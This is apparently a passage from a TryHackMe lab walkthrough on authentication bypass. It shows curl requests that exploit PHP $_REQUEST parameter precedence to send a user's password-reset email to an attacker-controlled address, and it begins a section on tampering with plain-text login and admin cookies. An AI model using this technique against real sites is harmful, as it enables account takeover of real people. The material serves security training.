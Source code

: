 We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.  

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`.

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favors POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.  

## **Curl Request 2:**

```shell-session
user@tryhackme$ curl 'http://10.10.115.220/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/3d97e3e37bf9e4db4f95f4f945a7e290.png)

For the next step, you'll need to create an account on the Acme IT support customer section, doing so gives you a unique email address that can be used to create support tickets. The email address is in the format of `{username}`**@customer.acmeitsupport.thm**  

Now rerunning **Curl Request 2** but with your @acmeitsupport.thm in the email field you'll have a ticket created on your account which contains a link to log you in as Robert. Using Robert's account, you can view their support tickets and reveal a flag.

**Curl Request 2 (but using your @acmeitsupport.thm account):**

```shell-session
user@tryhackme:~$ curl 'http://10.10.115.220/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```


# COOKIE TAMPERING

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. If you need a refresher on cookies, check out the [HTTP In Detail](https://tryhackme.com/room/httpindetail) room on task 6.

  

## **Plain Text**

The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:

**Set-Cookie: logged_in=true; Max-Age=3600; Path=/**  

****Set-Cookie: admin=false; Max-Age=3600; Path=/****
